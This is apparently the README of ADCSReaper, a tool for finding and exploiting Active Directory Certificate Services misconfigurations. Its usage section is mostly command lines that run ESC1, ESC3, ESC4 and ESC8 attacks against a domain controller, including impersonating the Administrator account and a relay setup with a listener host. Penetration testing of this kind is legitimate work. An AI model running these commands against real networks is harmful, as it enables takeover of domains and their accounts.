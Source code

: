 # ADCSReaper
A modular tool for enumerating and exploiting misconfigurations in Active Directory Certificate Services (ADCS).


```
 ▄▄▄      ▓█████▄  ▄████▄    ██████  ██▀███  ▓█████ ▄▄▄       ██▓███  ▓█████  ██▀███
▒████▄    ▒██▀ ██▌▒██▀ ▀█  ▒██    ▒ ▓██ ▒ ██▒▓█   ▀▒████▄    ▓██░  ██▒▓█   ▀ ▓██ ▒ ██▒
▒██  ▀█▄  ░██   █▌▒▓█    ▄ ░ ▓██▄   ▓██ ░▄█ ▒▒███  ▒██  ▀█▄  ▓██░ ██▓▒▒███   ▓██ ░▄█ ▒
░██▄▄▄▄██ ░▓█▄   ▌▒▓▓▄ ▄██▒  ▒   ██▒▒██▀▀█▄  ▒▓█  ▄░██▄▄▄▄██ ▒██▄█▓▒ ▒▒▓█  ▄ ▒██▀▀█▄
 ▓█   ▓██▒░▒████▓ ▒ ▓███▀ ░▒██████▒▒░██▓ ▒██▒░▒████▒▓█   ▓██▒▒██▒ ░  ░░▒████▒░██▓ ▒██▒
 ▒▒   ▓▒█░ ▒▒▓  ▒ ░ ░▒ ▒  ░▒ ▒▓▒ ▒ ░░ ▒▓ ░▒▓░░░ ▒░ ░▒▒   ▓▒█░▒▓▒░ ░  ░░░ ▒░ ░░ ▒▓ ░▒▓░
  ▒   ▒▒ ░ ░ ▒  ▒   ░  ▒   ░ ░▒  ░ ░  ░▒ ░ ▒░ ░ ░  ░ ▒   ▒▒ ░░▒ ░      ░ ░  ░  ░▒ ░ ▒░
  ░   ▒    ░ ░  ░ ░        ░  ░  ░    ░░   ░    ░    ░   ▒   ░░          ░     ░░   ░
      ░  ░   ░    ░ ░            ░     ░        ░  ░     ░  ░            ░  ░   ░
           ░      ░

```

## Features

- 🔍 Automated discovery of vulnerable certificate templates (ESC1, ESC3, ESC4, ESC8)
- 💣 Exploitation automation via Certipy & Coercer
- ✅ Safety checks to avoid unintended behavior
- 🔐 PFX file validation
- 📄 Structured logging with log rotation
- 🔧 Easily extensible architecture

## Requirements

- Python 3.8+
- Tools (installed & in $PATH):
  - [Certipy](https://github.com/ly4k/Certipy)
  - [Coercer](https://github.com/p0dalirius/Coercer)

```bash
# Certipy
pipx install git+https://github.com/ly4k/Certipy.git

# Coercer
sudo python3 -m pip install coercer
```

## Quickstart / Setup

```bash
pipx install git+https://github.com/G0urmetD/ADCSReaper.git
adcsreaper -h
```

## Usage
### Detection Only
```bash
python3 adcsreaper.py -domain domain.local -username admin -password 'Pass123' -dc-ip 10.10.10.1 -detect
```

### Exploit ESC1
```bash
# default Administrator
python3 adcsreaper.py -domain domain.local -username admin -password 'Pass123' -dc-ip 10.10.10.1 -exploit -esc esc1

# custom target user
python3 adcsreaper.py -domain domain.local -username admin -password 'Pass123' -dc-ip 10.10.10.1 -exploit -esc esc1 -target-user Admin2
```

### Exploit ESC3
```bash
python3 adcsreaper.py -domain domain.local -username admin -password 'Pass123' -dc-ip 10.10.10.1 -exploit -esc esc3
```

### Exploit ESC4
```bash
python3 adcsreaper.py -domain domain.local -username admin -password 'Pass123' -dc-ip 10.10.10.1 -exploit -esc esc4
```

### Exploit ESC8
```bash
python3 adcsreaper.py -domain domain.local -username admin -password 'Pass123' -dc-ip 10.10.10.1 -exploit -esc esc8 -lhost 192.168.1.5
```

## Logging
- /var/log/adcsreaper/adcsreaper.log
